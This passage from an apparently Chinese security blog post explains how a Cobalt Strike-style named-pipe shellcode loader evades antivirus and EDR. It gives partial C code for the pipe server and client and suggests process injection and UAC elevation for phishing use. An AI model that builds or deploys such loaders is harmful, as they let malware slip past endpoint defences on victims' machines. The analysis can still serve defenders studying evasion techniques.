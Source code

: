 ```
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
    );
```

另外，还可以使用py,go,c#等多种语言编译程序，会有意想不到的效果。



## 0x02 Windows命名管道的分析、利用与复现

在CobaltStrike的Kit中，我们可以看到CS实现了一套Bypass脚本，如下图所示。本篇文章着重分析bypass-pipe.c中的技术—即使用命名管道对杀软进行绕过测试。

[![](https://p5.ssl.qhimg.com/t01f4b2c48a28a77895.png)](https://p5.ssl.qhimg.com/t01f4b2c48a28a77895.png)

命名管道是一个具有名称，可以单向或双面在一个服务器和一个或多个客户端之间进行通讯的管道。命名管道的所有实例拥有相同的名称，但是每个实例都有其自己的缓冲区和句柄，用来为不同客户端通许提供独立的管道。使用实例可使多个管道客户端同时使用相同的命名管道。 关于命名管道的更多介绍，请见[Windows 命名管道研究初探](https://www.anquanke.com/post/id/190207)

CS使用了进程内通信的方法，在进程内部创建命名管道并在进程内部调用。这种方法能够规避掉一些AV/EDR的查杀操作，具体的执行流程如下图所示。

[![](https://p2.ssl.qhimg.com/t01bce12f1197eb88fa.png)](https://p2.ssl.qhimg.com/t01bce12f1197eb88fa.png)

首先主进程使用CreateNamedPipeA函数在进程内部创建了一个内部的命名管道，并将Shellcode写入到命名管道中（注：Shellcode可以使用HTTP/TCP/UDP/ICMP等等多个协议通过网络传输，以此可以做到Shellcode字符串不落地，大大增加了免杀的概率）。此刻，命名管道可以理解为一个监听，时刻等待着客户端与其连接，并将数据传递给客户端。其中CreateNamedPipeA函数使用PIPE_ACCESS_OUTBOUND参数限制数据流只允许从命名管道的服务端传到命名管道的客户端。详细的参数信息可以见官方文档[CreateNamedPipeA](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createnamedpipea)。

随后使用CreateFileA函数创建一个命名管道的客户端，用于接收命名管道中存储的Shellcode。

最后使用CreateThread函数在该进程下创建了一个子线程加载Shellcode，我们也完全可以使用CreateRemoteThread函数将Shellcode注入到其他的进程中，以此防止该可执行文件被关闭导致的“掉线“。另外，还可以弹框UAC来提高控制权限，与此同时也会增加钓鱼的难度，因此还需要根据具体的攻击场景与需求来定制最适合自己的Shellcode Loader。

相关代码如下

```
//创建命名管道服务端，用于向客户端发送数据
void server(char * data, int length) `{`
    DWORD  wrote = 0;
    HANDLE pipe = CreateNamedPipeA(pipename, PIPE_ACCESS_OUTBOUND, PIPE_TYPE_BYTE, 1, 0, 0, 0, NULL);
    if (pipe == NULL || pipe == INVALID_HANDLE_VALUE)
       return;
    BOOL result = ConnectNamedPipe(pipe, NULL);
    if (!result)
       return;
    while (length &gt; 0) `{`
       result = WriteFile(pipe, data, length, &amp;wrote, NULL);
       if (!result)
           break;
       data   += wrote;
       length -= wrote;
    `}`
    CloseHandle(pipe);
`}`

    //创建命名管道客户端
BOOL client(char * buffer, int length) `{`
    DWORD  read = 0;
    HANDLE pipe = CreateFileA(pipename, GENERIC_READ, FILE_SHARE_READ |
     FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (pipe == INVALID_HANDLE_VALUE)
          return FALSE;
    while (length &gt; 0) `{`
       BOOL result = ReadFile(pipe, buffer, length, &amp;read, NULL);
```